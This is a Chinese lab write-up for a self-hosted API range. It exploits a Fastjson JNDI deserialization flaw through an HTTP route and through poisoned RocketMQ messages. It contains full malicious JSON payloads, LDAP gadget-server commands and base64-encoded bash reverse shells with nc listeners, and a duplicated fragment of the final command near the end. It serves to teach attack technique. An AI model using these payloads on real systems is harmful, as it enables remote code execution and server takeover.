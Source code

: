 API靶场-从消息队列缓存投毒到Fastjson_RCE
===

# 环境部署
```
docker-compose up -d 
```
访问http://ip:58080为springboot即成功部署。


# 攻击

代码审计发现/AddUser路由存在fastjson jndi漏洞，虽然jdk版本非常高，但是存在CC依赖可以作为本地gadget进行攻击。


```
nc -lvp 50000
```
```
POST /AddUser

{"id":"123","username":{"a":{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"},"b":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://ip:1099/vspk6i","autoCommit":true}},"password":"123"}
```

```
java -cp fastjson_tool.jar fastjson.LDAPRefServer2 1099  CommonsCollections5 "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC9kb2NrZXIuZm9yLm1hYy5ob3N0LmludGVybmFsLzUwMDAwIDA+JjE=}|{base64,-d}|{bash,-i}"
```

反弹shell之后可以访问Rocketmq和目标服务器。

代码审计发现目标服务器从Rocketmq消息队列取消息进行消费的过程存在fastjson jndi漏洞，因此可以进行缓存投毒。只要成功往Rocketmq的消息队列中推入fastjson的恶意payload，只需等待一段时间目标服务器总会消费到恶意payload，造成Rce。


```
nc -lvp 49999
```
```
java -cp fastjson_tool.jar fastjson.LDAPRefServer2 1098  CommonsCollections5 "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC9kb2NrZXIuZm9yLm1hYy5ob3N0LmludGVybmFsLzQ5OTk5IDA+JjE=}|{base64,-d}|{bash,-i}"
```

```
cd /tmp

java -jar MQProducer-1.0-SNAPSHOT-jar-with-dependencies.jar '10.0.20.12:9876' PID_BLOG_PROJECT T_DEMO_PROJECT ADD_USER '{"id":"123","username":{"a":{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"},"b":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://docker.for.mac.host.internal:1098/vspk6i","autoCommit":true}},"password":"123"}'
<er.for.mac.host.internal:1098/vspk6i","autoCommit":true}},"password":"123"}'
```

成功获取消费者服务器权限。







